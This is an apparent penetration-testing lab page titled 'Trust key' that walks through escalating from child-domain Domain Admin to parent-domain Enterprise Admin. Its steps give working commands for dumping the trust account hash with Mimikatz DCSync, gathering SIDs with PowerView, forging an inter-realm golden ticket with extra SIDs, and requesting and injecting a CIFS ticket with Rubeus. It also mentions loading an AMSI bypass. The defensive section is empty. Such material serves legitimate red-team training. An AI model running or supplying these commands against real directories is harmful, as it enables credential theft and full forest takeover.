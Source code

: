 # Trust key

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (71) (1).png>)

3\. DCsync the trust key with MimiKatz:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:amsterdam\bank$"'
```

![](<../../../.gitbook/assets/image (9) (1) (2).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (76) (1).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSid
```

![](<../../../.gitbook/assets/image (64) (1) (2).png>)

6\. Create a TGT for the krbtgt user and save it to disk with MimiKatz:

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

![](<../../../.gitbook/assets/image (72) (2).png>)

7\. Create a TGS for the CIFS service with Rubeus.exe using the created TGT:

```
.\Rubeus.exe asktgs /ticket:trustkey.kirbi /service:CIFS/dc01.bank.local /dc:dc01.bank.local /ptt
```

![](<../../../.gitbook/assets/image (28) (2).png>)

List the tickets:

![](<../../../.gitbook/assets/image (13) (2).png>)

## Defending

### Detection



## References

